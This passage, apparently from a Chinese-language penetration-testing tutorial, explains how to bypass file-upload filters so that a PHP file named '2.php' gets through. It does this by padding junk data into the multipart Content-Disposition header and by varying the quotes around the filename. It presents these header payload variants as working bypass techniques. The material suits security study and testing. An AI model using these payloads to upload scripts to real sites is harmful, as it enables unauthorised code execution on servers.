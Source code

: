 例如：	

```php
form-data;sadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasA; name="upload_file"; filename="2.php"
```

![img](assets/oHXjL8WkygD4hzp.jpg) 

#### 5.3.1.2.**name与filename之间**

当然这里不单单可以插入在form-data;与name="upload_file"; filename="2.php"之间，也可以在name="upload_file"; 与filename="2.php"之间。但是数据不能乱插入，比如你插在2.php中，那肯定不行，一般情况下，文件名称长度都可能存在限制，并且太长也上传不上去。

例如：

```php
Content-Disposition: form-data; name="upload_file"; sadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasA; filename="2.php"
```



### 5.3.2.**符号变异**

#### 5.3.2.1.**filename符号变异**

符号变异也就是将单双引号变换使用，或者单双引号缺失一部分进行使用，或者不使用单双引号来进行绕过。目前测试好像是无法通过了。

Content-Disposition: form-data; name="upload_file"; filename="2.php

Content-Disposition: form-data; name="upload_file"; filename='2.php

Content-Disposition: form-data; name="upload_file"; filename=2.php

![img](assets/1jGqfpDPUXeIr2F.jpg) 
